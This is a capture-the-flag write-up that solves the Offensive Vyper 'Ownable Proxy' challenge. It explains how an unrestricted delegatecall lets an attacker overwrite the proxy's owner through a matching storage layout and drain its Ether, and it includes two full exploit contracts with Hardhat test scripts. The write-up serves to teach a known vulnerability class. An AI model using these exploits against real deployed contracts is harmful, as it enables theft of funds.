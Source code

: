 ## 1) Challenge

>{{< admonition quote "Description" >}}
>
>The Ownable Proxy contract is a proxy contract that can execute a few different calls. Your objective is to become the owner and steal any Ether in the contract.
>
>{{< /admonition >}}

Challenge created by [@jtriley_eth](https://twitter.com/jtriley_eth).


## 2) Code Review

There is only one contract, `OwnableProxy.vy` ([source code](https://github.com/JoshuaTrujillo15/offensive_vyper/blob/main/contracts/ownable-proxy/OwnableProxy.vy)) that implements a proxy contract.
```python

# @version ^0.3.2

"""
@title Ownable Proxy Contract
@author jtriley.eth
"""

# Storage paddings for external contract calls.
storage_padding: uint256[32]


owner: public(address)


@external
def __init__():
    self.owner = msg.sender


@external
def forward_call(target: address, payload: Bytes[32]):
    """
    @notice Forwards a contract call.
    @param target Address to call.
    @param payload Calldata.
    """
    raw_call(target, payload)


@external
def forward_call_with_value(
    target: address,
    payload: Bytes[32],
    msg_value: uint256
):
    """
    @notice Forward a contract call with a msg.value.
    @param target Address to call.
    @param payload Calldata.
    @dev reverts if msg.sender is not owner since, ya know, it sends value.
    """
    assert msg.sender == self.owner, "not authorized"
    assert msg_value <= self.balance, "insufficient balance"
    raw_call(target, payload, value=msg_value)


@external
def forward_delegatecall(target: address, payload: Bytes[32]):
    """
    @notice Forwards a contract delegate call.
    @param target Address to delegate call.
    @param payload Calldata.
    @dev Local storage is padded to accomodate delegated contracts.
    """
    raw_call(target, payload, is_delegate_call=True)


@external
@payable
def __default__():
    pass

```
Contract main functions:
- `forward_call` executes the `raw_call` function. It accepts a `target` and a `payload`
- `forward_call_with_value`, it is the same as above, but it also accepts a value to send. Also, it checks if the sender is the owner (line `42`) and the balance is `>=` than the value to send
- `forward_delegatecall`, same as  `forward_call`, but it executes a delegate call (`is_delegate_call` is set to `true`)

The contract has two variables: `storage_padding` and `owner`. 

Our goal is to:
- become the owner
- steal any ETH in the contract

#### How can we become the owner?

The owner is stored in `owner` variable. So we need somehow to override that value with the attacker address. When a `DELEGATECALL` is executed, the delegated contract can access the storage variables of the calling contract (in our case, the proxy contact) because the code is executed in its context. If we make our exploit contract have the same variable layout as the proxy contract, we can call the proxy `forward_delegatecall` function by specifying a function of our exploit contract. When executing this function, we can override the `owner` proxy with an address we control (the attacker address that will be the `tx.origin`).

#### How can we steal all the ETH in the proxy contract?

Once we have overwritten the `owner` variable, we can call `forward_call_with_value` by specifying the target address to be the attacker address and thus drain all the funds.

Alternatively, when the function executed by `forward_delegatecall` is called (the same that overwrites the `onwer`), we can send the proxy balance to `tx.origin` (the attacker address) by calling the `raw_call` function. In this case, when `raw_call` is executed, the `msg.sender` will be the proxy contract; thus, it will be possible to drain all its funds.


## 3) Solution

For this challenge, there are two possible solutions. In both cases, in our exploit contracts, we need to add the variables `storage_padding` and `owner` before the `target` variable to reflect the proxy variables layout.

### Solution 1

This solution sets the proxy owner to the attacker address and then sends all the proxy balance using the `raw_call` function.

`ownable-proxy.challenge.js`:
```javascript

    it('Exploit', async function () {
        // YOUR EXPLOIT HERE

        let exploit = await (await ethers.getContractFactory('OwnableProxyExploit', deployer)).deploy(this.ownableProxy.address)

        console.log(`Owner    : ${await this.ownableProxy.owner()}`)
        let balanceBefore = await ethers.provider.getBalance(attacker.address)

        await exploit.connect(attacker).run();
        
        let balanceAfter = await ethers.provider.getBalance(attacker.address)
        console.log(`New Owner: ${await this.ownableProxy.owner()}`)

        expect(balanceAfter).to.be.gt(balanceBefore)

    })

```

`OwnableProxyExploit.vy`:
```python

storage_padding: uint256[32]

owner: address

target: address

@external
def __init__(target: address):
    self.target = target

# YOUR EXPLOIT HERE
@external
def run():
    Ownableproxy(self.target).forward_delegatecall(self, method_id("changeOwner()"))

@external
def changeOwner():
    self.owner = tx.origin
    raw_call(tx.origin, b"", value=2 * 10 ** 18)

```

You can find the complete code [here](https://github.com/dellalibera/offensive_vyper-solutions/blob/main/test/ownable-proxy.challenge.js) and [here](https://github.com/dellalibera/offensive_vyper-solutions/blob/main/contracts/exploits/OwnableProxyExploit.vy).

### Solution 2

This solution sets the proxy owner to the attacker address, and then, when the transaction completes, the attacker address calls the `forward_call_with_value` function. The condition at line `42` will be satisfied because the owner is now our attacker's address. 

`ownable-proxy.challenge_2.js`:
```javascript

    it('Exploit', async function () {
        // YOUR EXPLOIT HERE

        let exploit = await (await ethers.getContractFactory('OwnableProxyExploit_2', deployer)).deploy(this.ownableProxy.address)
        
        console.log(`Owner    : ${await this.ownableProxy.owner()}`)
        let balanceBefore = await ethers.provider.getBalance(attacker.address)

        await exploit.connect(attacker).run();
        await this.ownableProxy.connect(attacker).forward_call_with_value(attacker.address, [], INITIAL_BALANCE)

        let balanceAfter = await ethers.provider.getBalance(attacker.address)
        console.log(`New Owner: ${await this.ownableProxy.owner()}`)

        expect(balanceAfter).to.be.gt(balanceBefore)

    })

```

`OwnableProxyExploit_2.vy`:
```python

storage_padding: uint256[32]

owner: address

target: address

@external
def __init__(target: address):
    self.target = target

# YOUR EXPLOIT HERE
@external
def run():
    Ownableproxy(self.target).forward_delegatecall(self, method_id("changeOwner()"))

@external
def changeOwner():
    self.owner = tx.origin

```

You can find the complete code [here](https://github.com/dellalibera/offensive_vyper-solutions/blob/main/test/ownable-proxy.challenge_2.js) and [here](https://github.com/dellalibera/offensive_vyper-solutions/blob/main/contracts/exploits/OwnableProxyExploit_2.vy).


## 4) References

- [SWC-112 - Delegatecall to Untrusted Callee](https://swcregistry.io/docs/SWC-112)